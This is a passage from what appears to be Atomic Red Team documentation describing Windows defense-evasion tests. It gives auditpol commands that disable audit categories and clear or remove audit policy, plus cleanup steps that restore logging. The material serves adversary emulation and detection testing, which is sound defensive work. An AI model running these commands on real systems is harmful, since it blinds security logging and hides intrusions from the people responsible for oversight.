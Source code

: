 #### Cleanup Commands:

```powershell
Write-Host "NEED TO Restart-Computer TO ENSURE LOGGING RETURNS" -fore red
Remove-Item "$env:TEMP\Invoke-Phant0m.ps1" -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #4 - Impair Windows Audit Log Policy

Disables the windows audit policy to prevent key host based telemetry being written into the event logs.
[Solarigate example](https://www.microsoft.com/security/blog/2021/01/20/deep-dive-into-the-solorigate-second-stage-activation-from-sunburst-to-teardrop-and-raindrop/)

**Supported Platforms:** Windows

**auto_generated_guid:** 5102a3a7-e2d7-4129-9e45-f483f2e0eea8

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
auditpol /set /category:"Account Logon" /success:disable /failure:disable
auditpol /set /category:"Logon/Logoff" /success:disable /failure:disable
auditpol /set /category:"Detailed Tracking" /success:disable
```

#### Cleanup Commands:

```cmd
auditpol /set /category:"Account Logon" /success:enable /failure:enable
auditpol /set /category:"Detailed Tracking" /success:enable
auditpol /set /category:"Logon/Logoff" /success:enable /failure:enable
```

<br/>
<br/>

## Atomic Test #5 - Clear Windows Audit Policy Config

Clear the Windows audit policy using auditpol utility. This action would stop certain audit events from being recorded in the security log.

**Supported Platforms:** Windows

**auto_generated_guid:** 913c0e4e-4b37-4b78-ad0b-90e7b25010f6

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
auditpol /clear /y
auditpol /remove /allusers
```
